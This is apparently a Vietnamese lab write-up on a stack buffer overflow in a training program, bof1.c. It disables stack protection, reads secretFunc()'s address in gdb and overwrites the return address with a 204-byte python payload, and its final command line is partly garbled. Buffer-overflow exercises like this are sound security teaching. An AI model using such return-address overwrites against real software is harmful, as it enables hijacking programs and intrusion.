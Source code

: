 ### Chi tiết Buffer-overflow trên file bof1.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm secretFunc()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm get(array) của hàm vuln(). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến array xuống phần return address và cái phần được tràn vào return adddress là địa chỉ của hàm secretFunc() thì lúc đó hàm secretFunc() sẽ được gọi


![image](https://github.com/user-attachments/assets/061f6e08-a811-4b5e-9e22-e625c0b706a3)
***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm secretFunc()

  Vào gdb:
  ```
  qdb -q bof1.out  
  ```
  Xem địa chỉ hàm
  ```
  disas secretFunc
  ```
  ![image](https://github.com/user-attachments/assets/3c883274-5ee1-44a6-a82a-c0161b96d775)

  => Địa chỉ hàm secretFunc() là 0x0804846b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/4d515abb-0962-408a-912b-f1e2d36ce6b2)


  ta thấy mảng array chứa tối đa 200 bytes và ebp là 4 bytes nên ta cần truyền vào input 204 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm secretFunc() nữa để đè lên return addr là ta có thể gọi hàm này
* Bước 4: Thực hiền truyền input
  ```
  echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out)") | ./bof1.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/eea0cbe7-a3a0-48b8-b9bc-8d79118d33b2)

  => Thành công
